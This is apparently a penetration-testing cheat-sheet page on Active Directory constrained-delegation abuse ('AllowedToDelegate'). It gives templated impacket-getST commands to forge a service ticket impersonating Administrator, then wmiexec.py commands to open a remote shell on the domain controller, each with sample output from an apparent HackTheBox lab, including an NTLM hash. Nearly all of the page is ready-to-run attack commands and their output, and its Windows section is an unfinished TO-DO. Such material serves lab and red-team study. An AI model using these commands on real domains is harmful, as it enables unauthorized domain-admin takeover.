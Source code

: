 ```yaml
---
title: "AllowedToDelegate"
date: 2024-7-23
tags: ["Pass-The-Ticket", "Silver Ticket", "Ticket Granting Ticket", "Allowedtodelegate", "Active Directory", "Windows"]
---
```


### Privesc #1: Forge a Ticket

{{< tab set1 tab1 active >}}Linux{{< /tab >}}
{{< tab set1 tab2 >}}Windows{{< /tab >}}
{{< tabcontent set1 tab1 >}}

#### 1. Get a service ticket

```console
# For example, spn: www/dc.example.com (Check Bloodhound)
sudo ntpdate -s <DC> && impacket-getST -dc-ip <DC_IP> -spn <SERVICE>/<TARGET_DOMAIN> -hashes :<HASH> -impersonate Administrator '<DOMAIN>/<USER>'
```

```console {class="sample-code"}
$ sudo ntpdate -s dc.intelligence.htb && impacket-getST -dc-ip 10.10.10.248 -spn www/dc.intelligence.htb -hashes :80d4ea8c2d5ccfd1ebac5bd732ece5e4 -impersonate Administrator 'intelligence.htb/svc_int'
Impacket v0.12.0.dev1+20240730.164349.ae8b81d7 - Copyright 2023 Fortra

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating Administrator
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in Administrator@www_dc.intelligence.htb@INTELLIGENCE.HTB.ccache
```

#### 2. Remote

```console
export KRB5CCNAME=<CCACHE_FILE>
```

```console {class="sample-code"}
$ export KRB5CCNAME=Administrator@www_dc.intelligence.htb@INTELLIGENCE.HTB.ccache
```

```console
sudo ntpdate -s <DC> && wmiexec.py -k -no-pass administrator@<DC>
```

```console {class="sample-code"}
$ sudo ntpdate -s dc.intelligence.htb && wmiexec.py -k -no-pass administrator@dc.intelligence.htb
Impacket v0.12.0.dev1+20240730.164349.ae8b81d7 - Copyright 2023 Fortra

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>
```

<small>*Note: impacket-wmiexec may not work*</small>

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

#### 1. TO-DO

```console
TO-DO
```

{{< /tabcontent >}}
